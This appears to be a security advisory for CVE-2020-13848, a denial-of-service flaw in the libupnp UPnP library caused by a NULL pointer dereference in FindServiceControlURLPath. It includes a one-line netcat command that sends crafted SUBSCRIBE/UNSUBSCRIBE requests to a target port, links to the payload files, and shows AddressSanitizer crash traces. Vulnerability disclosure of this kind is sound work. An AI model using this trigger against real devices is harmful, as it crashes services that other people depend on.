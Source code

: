 # CVE-2020-13848: Denial of Service in Portable UPnP SDK (aka libupnp)

Portable UPnP SDK (aka libupnp) [4] 1.12.1 and earlier allows remote attackers to cause a denial of service (crash) via a crafted SSDP message due to a NULL pointer dereference in the functions `FindServiceControlURLPath` and `FindServiceEventURLPath` in `genlib/service_table/service_table.c` [1].

## Details
There is a NULL pointer dereference in the function `FindServiceControlURLPath` in `genlib/service_table/service_table.c`.

A segmentation fault occurs if the string `controlURLPath` is NULL. This crash can be triggered by sending a malformed `SUBSCRIBE` or `UNSUBSCRIBE` using any of the attached files [2,3].

```
cat <subscribe/unsubscribe>.txt | nc <ip> 49152
```

Compiling the library with ASan enabled, this will result in the following output using subscribe.txt

```
>> AddressSanitizer:DEADLYSIGNAL
=================================================================
==1382600==ERROR: AddressSanitizer: SEGV on unknown address 0x000000000000 (pc 0x7f9314e77878 bp 0x000000000002 sp 0x7f930eef98d0 T6)
==1382600==The signal is caused by a READ memory access.                                                                                                                      
==1382600==Hint: address points to the zero page.
    #0 0x7f9314e77877 in FindServiceControlURLPath src/genlib/service_table/service_table.c:357
    #1 0x7f9314e85b83 in GetDeviceHandleInfoForPath src/api/upnpapi.c:4246
    #2 0x7f9314e7fda8 in gena_process_subscription_renewal_request src/gena/gena_device.c:1464
    #3 0x7f9314e7641b in dispatch_request src/genlib/miniserver/miniserver.c:157
    #4 0x7f9314e7641b in handle_request src/genlib/miniserver/miniserver.c:230
    #5 0x7f9314e6ffca in WorkerThread src/threadutil/ThreadPool.c:576
    #6 0x7f9314e3efb6 in start_thread /build/glibc-suXNNi/glibc-2.29/nptl/pthread_create.c:486
    #7 0x7f9314d702ce in __clone (/lib/x86_64-linux-gnu/libc.so.6+0xfa2ce)

AddressSanitizer can not provide additional info.
SUMMARY: AddressSanitizer: SEGV src/genlib/service_table/service_table.c:357 in FindServiceControlURLPath
Thread T6 created by T0 here:
    #0 0x7f9314ed09b2 in pthread_create (/lib/x86_64-linux-gnu/libasan.so.5+0x399b2)
    #1 0x7f9314e6f97b in CreateWorker src/threadutil/ThreadPool.c:651

==1382600==ABORTING
```

and using unsubscribe.txt

```
>> AddressSanitizer:DEADLYSIGNAL
=================================================================
==1382441==ERROR: AddressSanitizer: SEGV on unknown address 0x000000000000 (pc 0x7f0c2ac29878 bp 0x000000000002 sp 0x7f0c23cf78e0 T8)
==1382441==The signal is caused by a READ memory access.                                                                                                                      
==1382441==Hint: address points to the zero page.
    #0 0x7f0c2ac29877 in FindServiceControlURLPath src/genlib/service_table/service_table.c:357
    #1 0x7f0c2ac37b83 in GetDeviceHandleInfoForPath src/api/upnpapi.c:4246
    #2 0x7f0c2ac32001 in gena_process_unsubscribe_request src/gena/gena_device.c:1577
    #3 0x7f0c2ac2841b in dispatch_request src/genlib/miniserver/miniserver.c:157
    #4 0x7f0c2ac2841b in handle_request src/genlib/miniserver/miniserver.c:230
    #5 0x7f0c2ac21fca in WorkerThread src/threadutil/ThreadPool.c:576
    #6 0x7f0c2abf0fb6 in start_thread /build/glibc-suXNNi/glibc-2.29/nptl/pthread_create.c:486
    #7 0x7f0c2ab222ce in __clone (/lib/x86_64-linux-gnu/libc.so.6+0xfa2ce)

AddressSanitizer can not provide additional info.
SUMMARY: AddressSanitizer: SEGV src/genlib/service_table/service_table.c:357 in FindServiceControlURLPath
Thread T8 created by T0 here:
    #0 0x7f0c2ac829b2 in pthread_create (/lib/x86_64-linux-gnu/libasan.so.5+0x399b2)
    #1 0x7f0c2ac2197b in CreateWorker src/threadutil/ThreadPool.c:651

==1382441==ABORTING
```

This was tested on the current master branch and on release 1.6.6. Earlier versions may also be affected.




## References
[1] CVE-2020-13848 - https://nvd.nist.gov/vuln/detail/CVE-2020-13848

[2] [subscribe.txt](https://github.com/pjlantz/pjlantz.github.io/blob/master/docs/assets/subscribe.txt)

[3] [unsubscribe.txt](https://github.com/pjlantz/pjlantz.github.io/blob/master/docs/assets/unsubscribe.txt)

[4] The Portable SDK for UPnP* Devices (libupnp) - https://github.com/pupnp/pupnp

